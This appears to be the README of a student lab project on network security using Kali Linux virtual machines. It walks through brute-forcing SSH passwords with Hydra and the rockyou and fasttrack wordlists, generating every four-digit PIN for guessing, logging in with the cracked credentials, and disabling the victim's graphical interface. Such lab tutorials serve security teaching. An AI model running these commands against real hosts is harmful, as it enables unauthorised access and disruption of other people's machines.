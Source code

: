 # CyberSleuth-Exploring-Network-Security
---
##### This project is intended to run on Kali Linux virtual machine.
### Instructions
To connect physical machines using Kali Linux on VirtualBox, we had to ensure that the virtual machines have access to the same network. A bridged adapter in networking connects the virtual machine directly to the physical network, enabling it to appear as a distinct device on the network, sharing the host's IP address. Once the VMs are connected, the following steps can be followed.
### 1. Password Decryption with Hydra
#### Method 1: Alphanumerical Password Lists
We will use comprehensive collection of commonly used passwords, to aid in our password decryption efforts. fasttrack.txt and rockyou.txt are two popular password lists.

Navigate to this diectory:
```bash
cd /usr/share/wordlists
```
Run hydra to test different possible passwords.
```bash
hydra -l user -P fasttrack.txt ssh://target_ip -V -F
```
#### Method 2: Numerical Password Guessing
Generate all possible 4 digit passwords combinations with this python script
```python
with open("four_digit_combinations.txt", "w") as f:
   	for i in range(10000):
       	f.write("{:04d}\n".format(i))
```
Execute .py file in terminal
```bash
python four_digit_generator.py
```
Hydra brute-force attack
```bash
hydra -l user -P four_digit_combinations.txt -t 4 -V -o hydra_output.txt ssh://target_ip
```
### 2. Using SSH to Gain Control of a Host Computer
Once the attacker has obtained valid credentials, they can use SSH to connect to the target host computer. The command to initiate an SSH connection is:
```bash
ssh username@target_ip
```
Upon connecting, SSH prompts for the password associated with the provided username. The attacker enters the obtained password.

### 3. Disabling the Graphical User Interface (GUI) 
Now that attacker has gained access to victim machine there is scope for damage.
To disable GUI temporarily:
```bash
sudo systemctl isolate multi-user.target
```
To enable the GUI temporarily:
```
sudo systemctl isolate graphical.target
```
